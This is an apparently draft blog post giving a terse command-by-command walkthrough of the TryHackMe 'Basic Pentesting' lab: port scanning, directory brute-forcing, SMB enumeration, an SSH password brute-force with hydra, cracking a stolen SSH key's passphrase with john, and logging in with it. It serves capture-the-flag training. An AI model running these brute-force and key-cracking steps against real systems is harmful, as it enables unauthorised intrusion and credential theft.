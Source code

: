 ```yaml
---
title: "Thm Basic Pentesting Writeup"
date: 2021-03-28T12:50:28+09:00
description:
draft: true
hideToc: false
enableToc: true
enableTocContent: false
tocPosition: inner
tocLevels: ["h2", "h3", "h4"]
tags:
- ctf
- tryhackme
- basic-pentesting
- writeup
categories:
- WriteUP
series:
-
image:
---
```


## WriteUP

### Find the services exposed by the machine

```bash
nmap -v -p- 10.10.xxx.xxx
```

### What is the name of the hidden directory on the web server(enter name without /)?

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.xxx.xxx
```

### What is the username?

```bash
enum4linux -a 10.10.xxx.xxx
```

### What is the password?

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.201.184 ssh
```

###

```bash
python2 /usr/share/john/ssh2john.py id_rsa > kay
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=SSH kay
```

```bash
ssh -i id_rsa kay@10.10.201.184
```

### 

```bash
cat pass.bak
```